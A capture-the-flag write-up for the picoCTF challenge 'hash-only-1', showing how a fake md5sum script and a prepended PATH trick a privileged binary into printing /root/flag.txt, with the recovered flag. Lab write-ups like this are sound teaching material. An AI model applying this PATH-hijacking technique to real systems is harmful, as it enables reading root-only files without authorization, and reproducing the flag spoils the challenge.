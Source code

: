 # hash-only-1

When I executed `flaghasher`, I got the md5 hash of the flag.
```
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

6cc51034c4d9ec81fe8525a86ef9f3a6  /root/flag.txt
```

I found that the `flaghasher` was using the `md5sum` command to calculate the md5 hash.
```
$ strace ./flaghasher
...
wait4(16647, md5sum: /root/flag.txt: Permission denied
...
```

I created `md5sum` file that calls `cat`.
```shell
$ cat md5sum
#!/bin/bash
cat "$@"
```

Then I copied the `md5sum` file to the server.
```
$ scp -P 51566 md5sum ctf-player@shape-facility.picoctf.net:~/
```

I made the `md5sum` executable and added it to the PATH.
```
ctf-player@pico-chall$ chmod +x md5sum
ctf-player@pico-chall$ export PATH="/home/ctf-player:$PATH"
```

When I executed `flaghasher`, the `md5sum` command was executed instead of the original `md5sum` command.
```
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_bfa4a3f5}
```
